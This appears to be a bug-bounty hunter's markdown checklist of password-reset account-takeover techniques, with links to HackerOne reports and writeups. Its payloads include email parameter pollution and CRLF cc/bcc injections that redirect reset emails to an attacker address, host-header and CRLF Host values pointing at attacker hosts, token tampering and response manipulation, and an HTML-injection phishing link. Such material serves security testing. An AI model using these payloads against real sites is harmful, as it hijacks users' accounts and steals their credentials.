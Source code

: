 ```yaml
---
tags:
  - web_hunting
  - logic-bugs
  - web-app-security
---
```

- [ ] **[Weak Cryptography to Account Takeover’s](https://vasuyadav0786.medium.com/weak-cryptography-to-account-takeovers-87782224ed0d)** 
- [ ] **[Weak Cryptography in Password Reset](https://infosecwriteups.com/weak-cryptography-in-password-reset-to-full-account-takeover-fc61c75b36b9)**
- [ ] [Host Header Poisoning](https://hackerone.com/reports/1108874)
    [0xacb.com/normalization_table](https://0xacb.com/normalization_table)
    ```python
    victim.com@attacker.com 
    ```
- [ ] **[IDN Homograph Attack leads to ATO](https://infosecwriteups.com/how-i-was-able-to-change-victims-password-using-idn-homograph-attack-587111843aff)**  
- [ ] _**Password reset with manipulating email parameter (BAC)**_
```python
# parameter pollution
email=victim@mail.com&email=hacker@mail.com

# array of emails
{"email":["victim@mail.com","hacker@mail.com"]}

# carbon copy
email=victim@mail.com%0A%0Dcc:hacker@mail.com
email=victim@mail.com%0A%0Dbcc:hacker@mail.com

# separator
email=victim@mail.com,hacker@mail.com
email=victim@mail.com%20hacker@mail.com
email=victim@mail.com|hacker@mail.com
#No domain:
email=victim
#No TLD (Top Level Domain):
email=victim@xyz
#change param case 
email=victim@mail.com&Email=attacker@mail.com
email@email.com**,**victim@hack.secry  
email@email**“,”**victim@hack.secry  
email@email.com**:**victim@hack.secry  
email@email.com**%0d%0a**victim@hack.secry  
**%0d%0a**victim@hack.secry  
**%0a**victim@hack.secry  
victim@hack.secry**%0d%0a**  
victim@hack.secry**%0a**  
victim@hack.secry**%0d**  
victim@hack.secry**%00**  
victim@hack.secry**{{}}**
```

```python
step 1: Attacker Enter the victim's email or mobile number into the forgot password field.
step 2: Attacker intercept the request and got JSON data like that

{“email”:”victim@gmail.com”,”token”:”1234"}
step 3: Attacker change victim email to his email id

{“email”:”attacker@gmail.com”,”token”:”1234"}
and forward the request.

*Notice on the old token is deactivated or not.
```
- [ ] **Response Manipulation to ATO**
    
    ```jsx
    1. Do Normal Reset Password Process and note the successful  response 
    2. Request for reset password token 
    3. enter 00000 or any random number 
    4. Intercept the response
    5. delete error message and change the status code to 200 and change body like what you noted in step1
    ```    
- [ ] IDOR to ATO
    
    **IDOR on Reset Password**
    
    The last one was also an Basic IDOR, When I requested for reset password then the request response looks like this
    
    ![https://miro.medium.com/v2/1*7GQ1sbFDEllEY1kpQodGoA.jpeg](https://miro.medium.com/v2/1*7GQ1sbFDEllEY1kpQodGoA.jpeg)
    
    Then OTP came to my email and I entered the OTP but when I entered new password and captured that request
    
    ![https://miro.medium.com/v2/1*Vk7-7Tdd_bFmWAul2_BsSQ.jpeg](https://miro.medium.com/v2/1*Vk7-7Tdd_bFmWAul2_BsSQ.jpeg)
    
    Then I noticed there was no OTP field, but there was a user id, which was encrypted but was being leaked in the response, so I just replaced it with the user id of another account, and bam, my other account’s password was changed.
    
- [ ] Race Condition
    
    [Lab: Exploiting time-sensitive vulnerabilities | Web Security Academy (portswigger.net)](https://portswigger.net/web-security/race-conditions/lab-race-conditions-exploiting-time-sensitive-vulnerabilities)
    
- [ ] Play with token
    
    ```python
    1- Completely remove the token
    2- change it to 00000000...
    3- use null/nil value
    4- try expired token
    5- try an array of old tokens
    6- look for race conditions
    7- change 1 char at the begin/end to see if the token is evaluated
    8- use unicode char jutzu to spoof email address
    ```
- [ ] **[Password reset broken logic [Portswigger]](https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-reset-broken-logic)**
- [ ] **[No length on password](https://hackerone.com/reports/1411363)**
- [ ] **[[XSS|XSS]] in email section**
- [ ] **[Reset/Forgotten Password Bypass [Hacktricks]](https://book.hacktricks.xyz/pentesting-web/reset-password)**
- [ ] **[Bruteforcing password reset tokens](https://hackerone.com/reports/271533)**
- [ ] **[No Rate Limit On Reset Password](https://hackerone.com/reports/1166066)**
- [ ] **[Enumeration of username on password reset page](https://hackerone.com/reports/806151)**
- [ ] **[Password reset token leaked via Referer header](https://hackerone.com/reports/1320242)**
    - Request password reset to your email address
    - Click on the password reset link
    - Dont change password
    - Click any 3rd party websites(eg: Facebook, twitter)
    - Intercept the request in burpsuite proxy
    - Check if the referer header is leaking password reset token.
    **Reference:**
    - [https://hackerone.com/reports/342693](https://hackerone.com/reports/342693)
    - [https://hackerone.com/reports/272379](https://hackerone.com/reports/272379)
    - [https://hackerone.com/reports/737042](https://hackerone.com/reports/737042)
    - [https://medium.com/@rubiojhayz1234/toyotas-password-reset-token-and-email-address-leak-via-referer-header-b0ede6507c6a](https://medium.com/@rubiojhayz1234/toyotas-password-reset-token-and-email-address-leak-via-referer-header-b0ede6507c6a)
    - [https://medium.com/@shahjerry33/password-reset-token-leak-via-referrer-2e622500c2c1](https://medium.com/@shahjerry33/password-reset-token-leak-via-referrer-2e622500c2c1)
    **Impact**
    It allows the person who has control of particular site to change the user’s password (CSRF attack), because this person knows reset password token of the user.
- [ ] [**Failure to Invalidate Session > On Password Reset**](https://hackerone.com/reports/411337)
- [ ] **[HTML_Injection_on_password_reset_page](https://github.com/KathanP19/HowToHunt/blob/master/HTML_Injection/HTML_Injection_on_password_reset_page.md)**
    ```
    ### Steps
    
    1. Create your account
    2. Edit your name to `<h1>attacker</h1>` or `"abc><h1>attacker</h1>` and save it.
    3. Request for a reset password and check your email.
    4. You will notice the `<h1>` tag getting executed
    
    * HTML injection are usually considered as low to medium severity bugs but you can escalate the severity by serving a
    malicious link by using `<a href>` for eg: `<h1>attacker</h1><a href="your-controlled-domain"Click here</a>`
    
    * You can redirect the user to your malicious domain and serve a fake reset password page to steal credentials
    Also you can serve a previously found XSS page and steal user cookies etc etc.. The creativity lies on you..
    
    ``` 
- [ ] **Password Reset Token Sent Over HTTP**
- [ ] **Token is Not Invalidated After Use**
- [ ] **Cleartext Transmission of Session Token**
- [ ] **[Password Policy Restriction Bypass](https://hackerone.com/reports/1675730)**
- [ ] Token is Not Invalidated After Email Change/Password Change
	- [Chaturbate | Report #411337 - Forget password link not expiring after email change. | HackerOne](https://hackerone.com/reports/411337)
- [ ] Token Has Long Timed Expiry
- [ ] Token is Not Invalidated After New Token is Requested
- [ ] Token is Not Invalidated After Login
- [ ] CRLF in URL
	```
	with CRLF: /resetPassword?0a%0dHost:atracker.tld (x-host, true-client-ip, x-forwarded...)
	```